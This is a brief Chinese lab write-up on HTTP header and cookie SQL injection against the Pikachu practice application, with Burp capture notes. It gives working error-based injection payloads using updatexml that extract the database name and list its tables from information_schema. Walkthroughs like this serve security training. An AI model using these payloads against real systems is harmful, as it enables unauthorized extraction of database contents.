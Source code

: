 #### **http header 注入**

登录后, burp抓包,报错注入

![image-20220206215455326](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202119228.png)

```
爆库
1' or updatexml(1,concat(0x7e,database()),0) or'
```

![image-20220206215632287](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202119835.png)

cookie处也可以注入

![image-20220206220210457](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202119178.png)

```
爆表
1' or updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema="pikachu"),0x7e),0) or'
1 or updatexml(1,concat(0x7e,substr((select group_concat(table_name)from information_schema.tables where table_schema="pikachu"),32),0x7e),0) or'
```
